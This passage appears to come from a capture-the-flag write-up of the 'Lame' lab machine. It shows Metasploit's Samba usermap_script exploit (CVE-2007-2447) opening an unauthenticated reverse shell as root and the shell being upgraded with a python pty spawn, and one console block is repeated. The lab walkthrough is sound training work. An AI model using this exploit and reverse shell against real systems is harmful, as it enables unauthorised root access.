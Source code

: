```

Payload information:
  Space: 1024

Description:
  This module exploits a command execution vulnerability in Samba 
  versions 3.0.20 through 3.0.25rc3 when using the non-default 
  "username map script" configuration option. By specifying a username 
  containing shell meta characters, attackers can execute arbitrary 
  commands. No authentication is needed to exploit this vulnerability 
  since this option is used to map usernames prior to authentication!

References:
  https://cvedetails.com/cve/CVE-2007-2447/
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html

msf6 exploit(multi/samba/usermap_script) > 
```  

I configured the necessary options including setting the target host/port and the local host/port. Executing the exploit started a reverse shell on the target as the root user.   

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:55731) at 2021-01-11 09:16:25 -0500

whoami
root
pwd
/
```  

Next, i upgraded my shell using python in order to get a more functioning shell.   

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:55731) at 2021-01-11 09:16:25 -0500

whoami
root
pwd
/
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
python -c 'import pty;pty.spawn("/bin/bash")'
root@lame:/# 
```  
